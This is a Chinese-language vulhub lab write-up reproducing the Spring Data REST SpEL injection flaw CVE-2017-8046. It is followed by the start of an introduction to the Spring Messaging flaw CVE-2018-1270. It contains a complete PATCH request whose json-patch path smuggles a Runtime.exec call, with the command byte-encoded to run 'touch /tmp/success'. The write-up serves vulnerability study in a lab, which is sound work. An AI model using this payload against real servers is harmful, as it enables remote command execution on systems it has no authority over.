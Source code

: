 

漏洞环境搭建

Unbantu、docker、vulhub

```
spring-rest-data:2.6.6
cd /vulhub/spring/CVE-2017-8046

docker-compose up -d
```

 等待环境启动完成，然后访问`http://192.168.1.10:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。  



漏洞复现

 \1. 访问`http://192.168.1.10:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：  

```python
PATCH /customers/1 HTTP/1.1
Host: 192.68.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

 path的值是SpEL表达式，发送上述数据包，将执行new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}表示的命令touch /tmp/success，是经过[ACII编码](https://www.qqxiuzi.cn/bianma/ascii.htm#:~:text=ASCII编码转换 1 输入字符时，连续输入即可。 超出ASCII字集的字符以Unicode或UTF-16BE编码显示。,2 输入ASCII码时，以逗号分隔每个编码。 十六进制和二进制编码支持连续输入，以兼容ASCII的UTF-16BE解码：十六进制 0000-007F；二进制 0000000000000000-0000000001111111。)得到的（十进制）。

1. 然后进入容器docker-compose exec spring bash看看：  

![img](assets/1669936396541-33a7aedb-ddaf-4adf-a95a-1ab97949958a.png)

## Spring Messaging 远程命令执行

`Spring Messaging 远程命令执行漏洞（CVE-2018-1270`）

漏洞介绍

spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。
